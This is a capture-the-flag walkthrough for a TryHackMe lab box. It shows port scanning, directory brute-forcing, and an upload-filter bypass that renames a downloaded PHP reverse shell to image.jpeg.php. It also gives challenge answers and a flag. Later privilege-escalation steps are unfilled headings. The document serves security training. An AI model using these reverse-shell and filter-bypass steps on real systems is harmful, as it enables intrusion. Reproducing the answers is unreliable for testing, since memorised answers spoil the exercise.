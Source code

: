 ```yaml
---
description: Web
---
```


# The Trial Before Christmas

## Video

## Resources

## Challenges

### Scan the machine. What ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.243.219
```

![](../.gitbook/assets/image%20%28365%29.png)

{% hint style="success" %}
80, 65000
{% endhint %}

### What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

```text
gobuster dir -u http://10.10.243.219 -w /usr/share/dirb/wordlists/common.txt
```

![](../.gitbook/assets/image%20%28368%29.png)

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28361%29.png)

![](../.gitbook/assets/image%20%28359%29.png)

{% hint style="success" %}
Light Cycle
{% endhint %}

### What is the name of the hidden php page?

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28360%29.png)

{% hint style="success" %}
uploads.php
{% endhint %}

### What is the name of the hidden directory where file uploads are saved?

{% hint style="success" %}
grid
{% endhint %}

### Bypass the filters. Upload and execute a reverse shell. 

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

![](../.gitbook/assets/image%20%28363%29.png)

![](../.gitbook/assets/image%20%28366%29.png)

![](../.gitbook/assets/image%20%28364%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

What is the value of the web.txt flag?



![](../.gitbook/assets/image%20%28362%29.png)

{% hint style="success" %}
THM{ENTER\_THE\_GRID}
{% endhint %}

Upgrade and stabilize your shell.



Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? **username:password**

\*\*\*\*

Access the database and discover the encrypted credentials. What is the name of the database you find these in?



Crack the password. What is it?



Use su to login to the newly discovered user by exploiting password reuse.



What is the value of the user.txt flag?



### Check the user's groups. Which group can be leveraged to escalate privileges?

###  

### Abuse this group to escalate privileges to root.



### What is the value of the root.txt flag?



